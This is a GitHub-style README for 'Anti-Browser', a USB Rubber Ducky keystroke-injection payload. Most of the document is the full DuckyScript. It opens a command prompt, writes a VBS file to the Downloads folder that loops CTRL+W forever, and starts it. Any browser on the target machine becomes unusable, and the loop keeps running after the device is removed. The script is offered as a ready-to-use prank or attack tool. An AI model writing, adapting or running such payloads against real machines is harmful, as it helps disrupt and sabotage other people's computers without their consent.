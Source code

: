 # Anti-Browser
This script creates a vbs file that sends CTRL+W over and over very fast and, therefore, it will be impossible to use the browser. Furthermore, you can unplug the Rubber Ducky after the vbs is executed, because the thing that sends the keystrokes is the vbs file and not the Ducky.
<h2>About...</h2>

Author: <a href="https://github.com/BlueArduino20">BlueArduino20</a>

Original repository: https://github.com/BlueArduino20/Anti-Browser

Time needed to complete the script injection: about 1.5 seconds!

Version: 1.0

<h2>Code</h2>

<pre><code>ESC
DELAY 500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %userprofile%/Downloads
ENTER
STRING copy con CW.vbs
ENTER
STRING do
ENTER
STRING Set objShell = CreateObject("WScript.Shell")
ENTER
STRING WScript.Sleep 800
ENTER
STRING objShell.SendKeys "^{W}"
ENTER
STRING loop
CTRL z
DELAY 100
ENTER
STRING start CW.vbs && exit
ENTER
</pre></code>
